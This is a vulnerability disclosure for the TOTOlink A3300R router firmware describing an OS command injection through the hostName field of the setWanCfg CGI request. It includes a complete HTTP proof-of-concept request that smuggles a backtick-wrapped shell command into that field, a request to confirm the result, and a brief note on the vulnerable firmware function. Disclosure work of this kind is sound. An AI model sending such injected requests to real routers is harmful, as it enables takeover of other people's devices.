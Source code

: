 # TOTOlink A3300R V17.0.0cu.557_B20221024 Command Injection
### Discoverer
杨益
## Product Information

Device: TOTOlink A3300R
Firmware Version: V17.0.0cu.557_B20221024
Manufacturer's website information：https://www.totolink.net/
Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/241/ids/36.html

![image-20240109124617070](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/1/img/image-20240109124617070.png)

## Vulnerability Description

When deal with  `setWanCfg` request,`hostName` parameter is vulnerable to OS command injection.

### POC

```
POST /cgi-bin/cstecgi.cgi?token=07A82EFFF70D2D6B HTTP/1.1
Host: itotolink.net
Content-Length: 201
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://itotolink.net
Referer: http://itotolink.net/advance/wan.html?token=07A82EFFF70D2D6B
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close

{"hostName":"TOTOLINK`ls>/web/123.txt`","dhcpMtu":"1500","proto":1,"dnsMode":"0","ttlWay":"1","lcpEchoEnable":"1","option60Enable":"0","clone":"0","cloneMac":"40:EE:15:D4:88:6D","topicurl":"setWanCfg"}
```

injection the command "ls>/web/123.txt"

![image-20240109130008597](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/1/img/image-20240109130008597.png)

check the result.

```
GET /123.txt HTTP/1.1
Host: itotolink.net
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://itotolink.net/advance/upload.html?token=07A82EFFF70D2D6B
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close
```

![image-20240109130149275](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/1/img/image-20240109130149275.png)

## Analysis

sub_422380 will handle the `setWanCfg` request. sub_422380 get `hostName` parameter from request body, then pass to `doSystem` function.

![image-20240109125531671](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/1/img/image-20240109125531671.png)
